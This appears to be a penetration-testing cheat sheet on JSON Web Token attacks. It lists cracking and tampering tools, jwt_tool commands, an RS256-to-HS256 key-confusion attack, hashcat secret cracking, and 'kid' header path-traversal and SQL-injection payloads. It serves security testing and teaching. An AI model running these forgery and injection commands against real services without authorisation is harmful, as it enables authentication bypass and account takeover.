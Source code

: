 # Tools

- [JWT.io](https://jwt.io/) - Debugging and testing JWT
- [JWK Set Generator](https://mkjwk.org/) - Generate JWK Sets
- [JWT Decoder](https://jwt.io/tools?tab=decode) - Decode JWT
- [GitHub — ticarpi/jwt_tool: A toolkit for testing, tweaking and cracking JSON Web Tokens](https://github.com/ticarpi/jwt_tool) - A toolkit for testing, tweaking and cracking JSON Web Tokens
- [GitHub — hahwul/jwt-hack: 🔩 jwt-hack is tool for hacking / security testing to JWT. Supported for En/decoding JWT, Generate payload for JWT attack and very fast cracking(dict/brutefoce)](https://github.com/hahwul/jwt-hack) - 🔩 jwt-hack is tool for hacking / security testing to JWT. Supported for En/decoding JWT, Generate payload for JWT attack and very fast cracking(dict/brutefoce)
- [GitHub — mazen160/jwt-pwn: Security Testing Scripts for JWT](https://github.com/mazen160/jwt-pwn) - Security Testing Scripts for JWT 
- [GitHub — brendan-rius/c-jwt-cracker: JWT brute force cracker written in C](https://github.com/brendan-rius/c-jwt-cracker) - JWT brute force cracker written in C
- [GitHub — jmaxxz/jwtbrute: Brute forcing jwt tokens signed with HS256 since 2014](https://github.com/jmaxxz/jwtbrute) - Brute forcing jwt tokens signed with HS256 since 2014
- [GitHub — Sjord/jwtcrack: Crack the shared secret of a HS256-signed JWT](https://github.com/Sjord/jwtcrack) - Crack the shared secret of a HS256-signed JWT
- [JSON Web Tokens](https://portswigger.net/bappstore/f923cbf91698420890354c1d8958fee6) - Burp extension to decode JWT
- [JSON Web Token Attacker](https://portswigger.net/bappstore/f923cbf91698420890354c1d8958fee6) - Burp extension to check JWT (JSON Web Tokens) for using keys from known from public sources 
- [GitHub — wallarm/jwt-heartbreaker: The Burp extension to check JWT (JSON Web Tokens) for using keys from known from public sources](https://github.com/wallarm/jwt-heartbreaker) - The Burp extension to check JWT (JSON Web Tokens) for using keys from known from public sources 
-  [JWTweak](https://rishuranjanofficial.github.io/JWTweak/) - JWT Tweak Tool 
- [jwt_tool](https://github.com/ticarpi/jwt_tool) - A toolkit for testing, tweaking and cracking JSON Web Tokens 



## jwt_tool Commands:

- `jwt_tool -d <jwt_token>` - Decode JWT
- `jwt_tool -e <jwt_token>` - Encode JWT
- `jwt_tool -t <jwt_token>` - Test JWT
- `jwt_tool -p <jwt_token>` - Print JWT
- `jwt_tool <JWT_Token> -C -d passwordList.txt` 
- `jwt_tool <JWT_Token> -X n` 
- `jwt_tool <JWT_Token> -X a` 
- `jwt_tool <JWT_Token> -X b` 
- `jwt_tool -t http://example.com -rh “Authorization: Bearer <JWT_Token>” -M pb` 
- `jwt_tool <JWT_Token> -X k -pk < public-key-pem >` 
- `jwt_tool -h` 

![alt text](image.png)



## Change Algorithm from RS256 to HS256:
- Get the Public key from the application (e.g., pubkey.pem file) using the following commands:
```openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem
openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem```    

or 
```oopenssl s_client -connect zonksec.com:443 | openssl x509 -pubkey -noout````

commnad: `python3 jwt_tool.py <JWT> -S hs256 -k pubkey.pem`


## Crack the Secret Key:
```hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --force
hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --show   # to display the cracked secret key```

## Attacks Using kid in JWT Token
`python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""`
`python3 jwt_tool.py -I -hc kid -hv "path/of/the/file" -S hs256 -p "Content of the file"`
`python3 jwt_tool.py <JWT> -I -pc name -pv "admin' ORDER BY 1--" -S hs256 -k public.pem`




#### References:
- [write-up](https://medium.com/@0x_xnum/all-about-jwt-vulnerabilities-ef7314c4dd02) - All about JWT Vulnerabilities
- 







